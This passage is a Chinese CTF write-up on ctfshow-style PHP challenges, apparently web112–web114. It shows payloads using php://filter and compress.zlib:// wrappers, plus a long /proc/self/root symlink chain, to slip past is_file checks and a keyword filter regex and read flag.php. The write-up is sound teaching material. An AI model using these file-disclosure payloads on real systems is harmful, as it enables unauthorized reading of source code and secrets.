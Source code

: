 is_file 判断给定文件名是否为一个正常的文件

php伪协议绕过

payload

```
file=php://filter/resource=flag.php
file=php://filter/convert.base32-encode/resource=flag.php
file=compress.zlib://flag.php
```

## web113(符号链接绕过)

```php
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/filter|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

非预期解

```
compress.zlib://flag.php
```

预期解

利用符号链接（软链接）

```
file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

`/proc/self` 表示当前进程目录，`/proc/self/root`代表根目录

如果软连接跳转的次数超过了某一个上限，Linux的lstat函数就会出错，导致PHP计算出的绝对路径就会**包含一部分软连接的路径**，也就和原始路径不相同的，就绕过了is_file函数

参考：[[CTF]proc目录的应用](http://t.csdnimg.cn/gh7Av)

## web114(php伪协议)
